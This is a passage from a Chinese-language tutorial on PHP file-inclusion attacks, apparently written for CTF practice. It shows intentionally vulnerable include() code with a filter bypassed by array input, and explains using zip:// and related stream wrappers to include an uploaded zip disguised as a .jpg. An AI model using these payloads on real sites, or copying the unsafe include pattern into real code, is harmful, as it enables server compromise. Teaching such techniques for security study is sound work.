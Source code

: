举个例子

```
$id = $_GET['id'];
// flag in D:\flag.txt
if (substr($id, 0, 6) === "php://" && isset($id)) {
    echo "Out!";
}else{
    include(implode($id));
}
```

这里我使用 substr 对字符串进行检测，如果包含 php://则回显 Out，substr 可以用数组绕过

![img](./assets/159070-51221f-78805a221a988e79ef3f42d7-1024x449.png)

#### zip:// & bzip2 & zlib://

**触发条件：**

- allow_url_fopen: off/on
- allow_url_include: off/on

**作用：**
zip:// & bzip2:// & zlib:// 均属于压缩流，可以用来访问压缩文件中的子文件，可以不用指定后缀名，可修改为任意后缀。jpg、png、gif、xxx、etc…

**ZIP 使用：**

```
zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
```

压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传

```
?file=zip://E:\web\d-cutevnc\test.jpg%23test.txt
```
